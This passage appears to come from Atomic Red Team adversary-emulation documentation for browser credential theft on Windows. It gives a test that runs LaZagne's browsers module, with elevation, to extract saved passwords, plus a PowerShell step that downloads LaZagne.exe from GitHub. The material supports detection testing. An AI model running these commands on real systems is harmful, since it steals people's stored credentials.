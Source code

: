 <br/>
<br/>

## Atomic Test #3 - LaZagne - Credentials from Browser

The following Atomic test utilizes [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from browsers on the Windows operating system.
LaZagne is an open source application used to retrieve passwords stored on a local computer.

**Supported Platforms:** Windows

**auto_generated_guid:** 9a2915b3-3954-4cce-8c76-00fbf4dbd014

#### Inputs:

| Name         | Description     | Type | Default Value                                             |
| ------------ | --------------- | ---- | --------------------------------------------------------- |
| lazagne_path | Path to LaZagne | path | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;LaZagne.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{lazagne_path}" browsers
```

#### Dependencies: Run with `powershell`!

##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{lazagne_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{lazagne_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe" -OutFile "#{lazagne_path}"
```

<br/>
<br/>

## Atomic Test #4 - Simulating access to Chrome Login Data

Simulates an adversary accessing encrypted credentials from Google Chrome Login database.

**Supported Platforms:** Windows

**auto_generated_guid:** 3d111226-d09a-4911-8715-fe11664f960d
